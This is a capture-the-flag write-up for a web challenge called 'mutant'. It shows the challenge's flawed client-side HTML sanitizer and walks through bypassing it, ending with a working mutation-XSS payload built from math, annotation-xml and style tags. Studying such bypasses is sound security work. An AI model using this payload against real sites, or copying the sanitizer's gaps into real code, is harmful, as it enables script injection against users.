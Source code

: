 # 🏷️ mutant

**Category:** Web  
**Description:**  
> Just an XSS. What more is there to it?

----
<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/mutant/images/1.PNG?raw=true'>

<br></br>

**index.js**
```js
const inp = new URLSearchParams(location.search).get("input");

// Reporting stuff
reportbtn.addEventListener('click', () => {
  fetch("/report", {
    method: "POST",
    body: inp
  }).then(r => alert("Successfully reported")).catch(alert);
});

// Challenge
mytextarea.value = inp;

console.log("Original", inp);

const t = document.createElement("template");
t.innerHTML = inp;

console.log("After injecting into template", t.innerHTML);

const nodes = [t.content];
while (nodes.length > 0) {
  const n = nodes.pop();

  console.log("Parsed element", n.outerHTML);

  if (n.attributes) {
    while (n.attributes.length > 0) {
      n.removeAttribute(n.attributes[0].name);
    }
  }

  // Fix XSS reported by our bug bounty community
  if (n.nodeName !== "#document-fragment" && (n.nodeName.length === 6 || n.nodeName.length === 8)) {
    n.parentNode.removeChild(n);
    continue;
  }
  
  for (let i = n.children.length - 1; i >= 0; i--) {
    nodes.push(n.children[i]);
  }
}

console.log("After sanitization", t.innerHTML);

myoutputdebug.innerText = t.innerHTML;
myoutput.innerHTML = t.innerHTML;

console.log("Final", myoutput.innerHTML);
```

This is the sanitization process : 


```js
const nodes = [t.content];
while (nodes.length > 0) {
  const n = nodes.pop();
  console.log("Parsed element", n.outerHTML);

  if (n.attributes) {
    while (n.attributes.length > 0) {
      n.removeAttribute(n.attributes[0].name);
    }
  }

  // Fix XSS reported by our bug bounty community
  if (n.nodeName !== "#document-fragment" && (n.nodeName.length === 6 || n.nodeName.length === 8)) {
    n.parentNode.removeChild(n);
    continue;
  }
  
  for (let i = n.children.length - 1; i >= 0; i--) {
    nodes.push(n.children[i]);
  }
}
```


Iterates through the fragment’s nodes recursively.

Removes all attributes from each element.

Then tries to remove some elements based on nodeName.length:
```js
if (n.nodeName !== "#document-fragment" && (n.nodeName.length === 6 || n.nodeName.length === 8))
```

As we can see that the length is not a problem because there is some payloads we can use such as svg, img, ... etc.

Testing some stuff didn't worked then i tried some mutation XSS like `<table><h1>hello</h1></table>`

and the result was `<h1>hello</h1><table></table>`
<br />
<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/mutant/images/2.PNG?raw=true'>
<br />
Then i tried to construct a valid payload and got a working on :

```
<math><annotation-xml encoding="text/html"><style><img src onerror=alert(origin)>
```




